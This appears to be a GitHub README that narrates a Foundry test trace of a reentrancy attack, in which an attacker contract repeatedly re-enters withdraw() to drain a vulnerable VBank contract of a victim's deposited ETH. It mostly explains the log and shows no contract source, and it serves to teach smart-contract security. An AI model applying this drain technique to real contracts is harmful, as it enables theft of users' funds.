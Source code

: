 The screenshots resolution is very low if viewed directly through github. I recommend opening the image in a new tab and reading the comments at the same time.

We launched the test with the -vvvv flag, which provides full log details. In the square brackets before each action is executed, you can see how much gas was consumed.

## Let's start explaining callstack
```text
[263479] ReentrancyTest::testReentrancy() – Launching our test.
```
You may notice that with each reentrancy transaction, the amount of gas spent decreases.
This happens because each subsequent function call becomes shorter and easier for the EVM.
Each new call goes deeper into the call stack, where part of the data has already been processed, some variables are not re-created, and functions often work with values that are already prepared.
```text
[22537] VM::startPrank(alice: [0x328809Bc894f92807417D2dAD6b7C998c1aFdac6]) – Starting actions as the victim.
```
```text
VBank::deposit{value: 10000000000000000000}() – The victim deposits 10 ETH (in wei) into the bank.
After each completed function, you see [stop].


```VM::startPrank(owner: [0x7c8999dC9a822c1f0Df42023113EDB4FDd543266])```
   └─ ← [Return]
```

    ├─ [0] VM::assertEq(10000000000000000000 [1e19], 10000000000000000000 [1e19]) [staticcall]
    │   └─ ← [Return]
       - First we check the hacker’s balance with assertEq. The values match, confirming the hacker truly has 10 ETH.


    ├─ [0] VM::assertEq(10000000000000000000 [1e19], 10000000000000000000 [1e19]) [staticcall]
       - Same balance check for the vulnerable bank. 

```text
[127058] Attacker::attack{value: 1000000000000000000}()
    │   ├─ [22537] VBank::deposit{value: 1000000000000000000}()
    │   │   └─ ← [Stop]
```
We are launching our attack. Inside it, deposit() is triggered first, followed by receive() with an embedded withdraw() call. This clearly demonstrates the reentrancy attack: the withdrawal is repeated 10 times. 

Because the hacker's balance in the vulnerable contract's mapping is recorded as 1 ETH at a time, we can't withdraw more than 1 ETH in one go. However, since we can withdraw funds before the balance is reset to zero, we can keep withdrawing 1 ETH repeatedly until the vulnerable contract is fully drained.
```text
[0] owner::fallback{value: 11000000000000000000}() — The hacker’s fallback function was called, receiving 11 ETH.
```
```text
VM::assertGt(20000000000000000000 [2e19], 10000000000000000000 [1e19]) [staticcall] — Here we see the attacker’s balance is now 20 ETH instead of 10 ETH, meaning the owner address took funds from Alice’s address, which had stored money in the contract. This is direct evidence of the contract being hacked.
```
```text
Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 1.38ms (429.33µs CPU time)
Ran 1 test suite in 353.88ms (1.38ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```
Suite result: ok. — The test run completed successfully.
1 passed — One test was executed, and it passed.
0 failed — No errors were found.
0 skipped — No tests were skipped.







       







![Screenshot 2025-03-22 at 17 12 43](https://github.com/user-attachments/assets/b69f654a-a34e-4a74-b9f6-1bafb163a162)

![Screenshot 2025-03-22 at 17 13 33](https://github.com/user-attachments/assets/c4feaf1d-67a5-4227-95dc-db248d3e95f2)
